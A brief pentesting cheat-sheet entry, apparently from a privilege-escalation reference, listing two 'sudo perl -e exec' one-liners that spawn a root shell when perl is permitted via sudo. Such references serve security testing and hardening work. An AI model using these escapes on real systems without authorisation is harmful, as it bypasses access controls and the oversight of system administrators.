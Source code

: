 -- -
# Sudo
#### Perl
```bash 
sudo perl -e 'exec "/bin/sh";'
sudo /bin/perl -e 'exec "/bin/bash";'
```